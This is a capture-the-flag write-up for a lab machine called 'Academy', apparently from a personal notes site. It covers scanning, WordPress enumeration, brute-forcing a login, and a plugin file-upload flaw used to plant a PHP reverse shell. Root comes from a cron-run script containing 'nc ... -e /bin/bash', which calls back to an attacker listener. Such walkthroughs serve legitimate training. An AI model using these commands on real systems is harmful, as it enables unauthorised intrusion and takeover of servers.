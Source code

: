 ```yaml
---
{"dg-publish":true,"permalink":"/write-ups/the-hackers-labs/academy/","tags":["CTF","write-up","#wordpress"]}
---
```



![Pasted image 20241211222106.png|400](/img/user/attachments/Pasted%20image%2020241211222106.png)

---

> [!INFO] Info about Academy
>  Linux

> [!FAQ]- Hints
> No Hints.

---
# Active reconnaissance
## Port scan
Perform a quick general scan on all ports.
```shell
sudo nmap TARGET_IP -n -p- -sS -Pn -vvv --open --min-rate 5000 -oN nmap_scan
```

```c
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
```

---
# Enumeration
Perform a deep scan with common scripts only on ports we are interested in.
```shell
sudo nmap TARGET_IP -sCV -p 22,80 -oN nmap_enum
```
## OS
Linux
## Port 22 - SSH
tcp open  ssh     **OpenSSH 9.2**p1 Debian 2+deb12u2 (protocol 2.0)
## Port 80 - Apache
tcp open  http    **Apache** httpd **2.4.59** ((Debian))
Add IP to */etc/hosts* (Optional)
```shell
sudo echo "192.168.122.4 academy.thl" | sudo tee -a /etc/hosts
```

![Pasted image 20241212104601.png](/img/user/attachments/Pasted%20image%2020241212104601.png)
### Fuzz
```shell
ffuf -c -t 100 -u http://academy.thl/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -mc all -fc 404 -e .php,.html,.txt
```
One important result *WordPress*
### Wordpress
Version 6.5.3
![Pasted image 20241212110945.png](/img/user/attachments/Pasted%20image%2020241212110945.png)
#### Fuzz
```shell
ffuf -c -t 100 -u http://academy.thl/wordpress/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -mc all -fc 404 -e .php,.html,.txt
```
Nothing important

---
# Vulnerability analysis
## Wordpress
#### Wpscan
```shell
wpscan --url 192.168.122.4/wordpress -e vp,u --api-token="554f34g5gfhdg" --plugins-detection aggressive
```

Usernames
- dylan

The version has some vulnerabilities
![Pasted image 20241212122111.png](/img/user/attachments/Pasted%20image%2020241212122111.png)

The plugin *file-manager* has some vulnerabilities
![Pasted image 20241212120332.png](/img/user/attachments/Pasted%20image%2020241212120332.png)


---
# Exploitation
## Brute force attack to wordpress
```shell
wpscan --url 192.168.122.4/wordpress -U dylan -P /usr/share/wordlists/rockyou.txt
```
![Pasted image 20241212122444.png](/img/user/attachments/Pasted%20image%2020241212122444.png)

Now I can log in to the admin panel
![Pasted image 20241212123656.png](/img/user/attachments/Pasted%20image%2020241212123656.png)
## File upload
I use the vulnerability from the vulnerability analysis section named *Bit File Manager – 100% Free & Open Source File Manager and Code Editor for WordPress < 6.5.6 - Authenticated (Subscriber+) Arbitrary File Upload*
1. Go to the plugin section
2. Open the plugin on home
   ![Pasted image 20241212124333.png](/img/user/attachments/Pasted%20image%2020241212124333.png)
3. Click on home again
   ![Pasted image 20241212124436.png](/img/user/attachments/Pasted%20image%2020241212124436.png)
4. Navigate to a folder that you can aaccess it, in my case `http://192.168.122.4/wordpress/wp-content/uploads/` and click on upload
   ![Pasted image 20241212124905.png](/img/user/attachments/Pasted%20image%2020241212124905.png)
5. Now upload a reverse shell for example, I use */usr/share/webshells/php/php-reverse-shell.php* changing the data
   ![Pasted image 20241212125052.png](/img/user/attachments/Pasted%20image%2020241212125052.png)
6. Start the listener
```shell
rlwrap nc -lnvp 4747
```
7. Go to the path of file `192.168.122.4/wordpress/wp-content/uploads/php-reverse-shell.php`
8. We have a reverse shell
   ![Pasted image 20241212125253.png](/img/user/attachments/Pasted%20image%2020241212125253.png)

---
# Privilege escalation
Checking the files, I notice that I can write into *opt*
![Pasted image 20241212184041.png](/img/user/attachments/Pasted%20image%2020241212184041.png)
Thereis a file *cackup.py*, the content is:
![Pasted image 20241212184317.png](/img/user/attachments/Pasted%20image%2020241212184317.png)
There are credentials, I test them with no successful results.
I assume that another user is possibly executing the script, I look for on *crontabs* but unsuccessful.
I used [[pspy\|pspy]] to check some root processes without need root privileges. Transfer the binary.
```shell
pspy
```
![Pasted image 20241212184909.png](/img/user/attachments/Pasted%20image%2020241212184909.png)

A user is executing a binary named *backup.sh* instead *backup.py*
Create a *backup.sh* on the *opt* directory with the follow content to send us a revere shell.
```shell
#!/bin/bash
nc 192.168.122.192 4748 -e /bin/bash
```

Now set the listener
```shell
rlwrap nc -lnvp 4748
```

Wait if some user execute this script and it works. Looks that the script is executing very minute.
![Pasted image 20241212185335.png](/img/user/attachments/Pasted%20image%2020241212185335.png)


> [!check] User flag
> ![Pasted image 20241212185547.png](/img/user/attachments/Pasted%20image%2020241212185547.png)

> [!check] Root flag
> ![Pasted image 20241212185422.png](/img/user/attachments/Pasted%20image%2020241212185422.png)

---